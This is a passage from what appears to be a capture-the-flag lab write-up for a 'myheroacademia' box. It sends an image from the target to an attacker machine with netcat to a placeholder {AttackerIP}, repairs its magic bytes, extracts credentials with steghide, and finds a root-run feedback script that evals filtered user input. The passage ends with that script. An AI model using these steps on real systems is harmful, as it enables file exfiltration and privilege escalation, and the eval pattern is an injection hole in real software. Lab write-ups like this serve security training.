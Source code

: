 We download the image to our machine using the following commands:

```bash

# On our machine:
nc -lvnp 1234 > oneforall.jpg

# On target machine
nc -N {AttackerIP} 1234 < oneforall.jpg
```

When we try to open an image we get an error regarding the magic bytes.

> The magic bytes are simply the first bytes of a file which used to identify the file's type.
{: .prompt-info }

We can use `hexedit` to open the file and see the bytes.

```text
89 50 4E 47
```

With the help of this [wikipedia page](https://en.wikipedia.org/wiki/List_of_file_signatures) we can see that the bytes on this file does not match the jpg file bytes. `FF D8 FF E0 00 10 4A 46 49 46 00 01`

Let's fix the file by typing the bytes, we press `CTRL + x` to save the changes and press `Y`.

Now we can open the file.

Since we got a passphrase, let's see if there are any hidden file on this image.

```bash
[★]$ steghide --extract -sf oneforall.jpg 
Enter passphrase: 
wrote extracted data to "creds.txt".
```

It worked! And we got some user credentials that we can usee to ssh to the box.

Checking our privileges as the new user.

```terminal
eku@myheroacademia:~$ sudo -l
[sudo] password for deku: 
Matching Defaults entries for deku on myheroacademia:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User deku may run the following commands on myheroacademia:
    (ALL) /opt/NewComponent/feedback.sh
```

We can run feedback bash script as root, let's see what id does.

```bash
#!/bin/bash

echo "Hello, Welcome to the Report Form       "
echo "This is a way to report various problems"
echo "    Developed by                        "
echo "        The Technical Department of U.A."

echo "Enter your feedback:"
read feedback


if [[ "$feedback" != *"\`"* && "$feedback" != *")"* && "$feedback" != *"\$("* && "$feedback" != *"|"* && "$feedback" != *"&"* && "$feedback" != *";"* && "$feedback" != *"?"* && "$feedback" != *"!"* && "$feedback" != *"\\"* ]]; then
    echo "It is This:"
    eval "echo $feedback"
```